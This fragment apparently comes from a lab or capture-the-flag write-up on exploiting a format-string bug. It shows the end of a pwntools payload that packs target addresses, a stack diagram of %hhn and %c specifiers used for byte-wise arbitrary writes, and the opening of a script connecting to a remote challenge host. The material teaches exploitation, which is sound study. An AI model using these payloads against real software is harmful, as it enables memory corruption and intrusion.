 	payload += p64(target_address)		# 16th offset
	payload += p64(target_address + 1)	# 17th offset
	payload += p64(target_address + 2)	# 18th offset
	payload += p64(target_address + 3)	# 19th offset
	```
	
	* whole script
	
	Stack Layout (From higher to lower addresses):
	
	```
	┌───────────────────────────┐
	│ target_addr               │ 16th
	├───────────────────────────┤
	│ "%19$hhn."                │	15th
	├───────────────────────────┤
	│ "%18c...."                │	14th
	├───────────────────────────┤
	│ "%18$hhn."                │	13th
	├───────────────────────────┤
	│ "%218c..."                │ 12th
	├───────────────────────────┤
	│ "%17$hhn."                │ 11th
	├───────────────────────────┤
	│ "%61c...."                │ 10th
	├───────────────────────────┤
	│ "%16$hhn."                │ 9th
	├───────────────────────────┤
	│ "%46c...."                │ 8th 

	```
	
	```
	from pwn import *

	context.arch = 'amd64'
	# if args.REMOTE:
	p = remote('6447.lol', 4003)
	# else:
	#     context.terminal = ['tmux', 'splitw', '-h']
	#     p = gdb.debug('./meme',
	#                   gdbscript='''
	#                   b *0x401310
	#                   c
	#                   ''')
	